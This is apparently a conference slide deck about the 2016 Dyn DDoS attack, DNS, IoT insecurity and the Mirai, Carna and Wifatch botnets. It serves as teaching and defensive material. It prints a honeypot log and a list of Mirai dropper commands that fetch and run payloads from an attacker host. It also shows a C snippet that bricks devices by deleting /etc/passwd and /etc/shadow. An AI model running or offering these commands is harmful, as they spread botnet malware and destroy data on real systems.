










#HSLIDE

## About Dyn, Mirai and cats
* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE

#VSLIDE

Early Friday morning, __Dyn__, a company that provides __Domain Name Servers (DNS)__ for a 
lot of heavily trafficked websites and services, came under a __massive Distributed 
Denial of Service (DDoS)__ attack. This has disrupted access to many sites for people 
across the U.S. Yes, it’s why your __Spotify__ app is offline, why you can’t stream __Netflix__, 
and why __Twitter__ won’t load. 

#VSLIDE

## Key Findings:

* The Friday October 21, 2016 attack has been analyzed as a complex & sophisticated attack, using maliciously targeted, masked TCP and UDP traffic over port 53.
* Dyn confirms Mirai botnet as primary source of malicious attack traffic.
* Attack generated compounding recursive DNS retry traffic, further exacerbating its impact.

#HSLIDE

## DNS

<pre>
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
</pre>

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE

## Dyn service network

#VSLIDE

1. .. elevated bandwidth against our Managed DNS platform in the Asia Pacific, South America, Eastern Europe, and US-West regions ..
2. .. second attack began against our Managed DNS platform. This attack was more globally diverse ...

#HSLIDE

##IoT =

"= connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#VSLIDE

## How businesses see IoT ..

#VSLIDE

## How hackers see IoT ..

#VSLIDE

Mirai (Japanese for "the future") is malware that turns computer systems running Linux into remotely controlled "bots", that can be used as part of a botnet in large-scale network attacks. It primarily targets online consumer devices such as remote cameras and home routers 

*/WikiPedia/*

#VSLIDE

## History

* http://internetcensus2012.bitbucket.org/paper.html
* https://gitlab.com/rav7teif/linux.wifatch

#VSLIDE

## The story behind Carna botnet

Two years ago while spending some time with the Nmap Scripting Engine (NSE) someone mentioned that we should try the classic telnet login root:root on random IP addresses. This was meant as a joke, but was given a try. We started scanning and quickly realized that there should be several thousand unprotected devices on the Internet.

#VSLIDE 

## Carna Botnet client distribution March to December 2012. ~420K Clients

#VSLIDE

## Internet-of-Things vigilante Linux.Wifatch

#VSLIDE

## How many infected devices are there, really?

* We enumerate the whole core network multiple times a day, and the usual number of Wifatch instances is 60000 (and almost never exceeding 120000). Only these are currently being protected and disinfected.
* In addition, there is a much larger number of devices with a much smaller component, the so-called "tn" component ...  these should be around 200000-300000 at any point in time.

#VSLIDE

## https://github.com/jgamblin/Mirai-Source-Code

*Leaked Linux.Mirai Source Code for Research/IoT Development Purposes
Uploaded for research purposes and so we can develop IoT and such.*

#HSLIDE

### soo ... let's catch one hunter ...

<pre>
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; 
  wget http://catsmeowalot.com/lmao.sh || 
  curl -O http://catsmeowalot.com/lmao.sh; 
  chmod 777 lmao.sh; sh lmao.sh; busybox 
  tftp catsmeowalot.com  -c get tftp1.sh; 
  chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r 
  tftp2.sh -g catsmeowalot.com; 
  chmod 777 tftp2.sh; sh tftp2.sh; 
  rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
  rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: 
  log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol 
  connection lost disconnected
</pre>

#VSLIDE

<pre>
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && 
  chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && 
  chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && 
  chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && 
  chmod +x ayyx86 && ./ayyx86
 ...
</pre>

#VSLIDE

## Meet the Blackhat! 

#VSLIDE

## Grow botnet ...

#VSLIDE

## ATTACK!!!

#VSLIDE

## ATTACK!!!

#VSLIDE

## Meet the Whitehat! 

#VSLIDE

## @Malwaretech monitors Mirai networks

After the source code was released many new botherders appeared ...

<pre>
Skiddy
A variation of the word Script Kidddy.

Somone who 'hacks' using scripts/programs that other
people have written to aid them, having no knowladge
of computer systems whatsoever. 
</pre>

#VSLIDE

#VSLIDE

## Should/could we brick .. *pardon* .. clean the "world"?

*Mirai-Counter-Research/mirai/bot/patch.c*

<pre>
int patch_password()
{
	//TODO: Less intrusive cases

	//Last resort -- brick the machine
	//TODO:
	return (unlink("/etc/passwd") && 
   unlink("/etc/passwd-") && 
   unlink("/etc/shadow") && 
   unlink("/etc/shadow-"));
}
</pre>

#HSLIDE

## Outcome, so far
* *Skiddies* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/ IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/ assets/research/internet-of-things/ future-proofing-the-connected-world.pdf, ~70p)
  * ... probably many more
* DDoS as a service is off the shelf for now ...

#HSLIDE

Slides and more on Anycast and DNS:

<pre>
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
</pre>

